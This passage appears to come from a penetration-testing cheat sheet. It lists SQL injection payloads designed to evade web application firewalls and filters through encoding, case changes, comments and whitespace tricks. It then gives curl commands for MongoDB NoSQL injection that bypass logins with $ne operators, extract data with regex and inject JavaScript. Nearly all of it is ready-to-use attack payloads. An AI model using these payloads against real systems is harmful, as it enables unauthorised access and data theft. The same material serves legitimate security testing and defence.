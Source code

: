 **Bypass WAF/filters:**

```bash
# URL encoding
id=1%27%20OR%201=1--

# Double URL encoding
id=1%2527%2520OR%25201=1--

# Case variation
id=1' Or 1=1--
id=1' oR 1=1--

# Comment injection
id=1'/**/OR/**/1=1--

# Whitespace variations
id=1' OR 1=1--
id=1'OR'1'='1
id=1'%09OR%091=1--  (tab character)

# Inline comments
id=1'/*!OR*/1=1--
id=1'/*! OR */1=1--

# String concatenation
id=1' OR 'a'='a
id=CHAR(49) OR 1=1--
```

### NoSQL Injection

**MongoDB injection:**

```bash
# Authentication bypass
curl -X POST http://target.com/login \
    -H "Content-Type: application/json" \
    -d '{"username":{"$ne":null},"password":{"$ne":null}}'

# $ne = not equal (bypasses authentication)

# Extract data using regex
curl -X POST http://target.com/login \
    -d "username[$regex]=^admin&password[$ne]=null"

# Boolean-based enumeration
curl -X POST http://target.com/login \
    -d "username=admin&password[$regex]=^a"  # Check if password starts with 'a'

# JavaScript injection
curl -X POST http://target.com/search \
    -d "query='; return true; var dummy='"
```
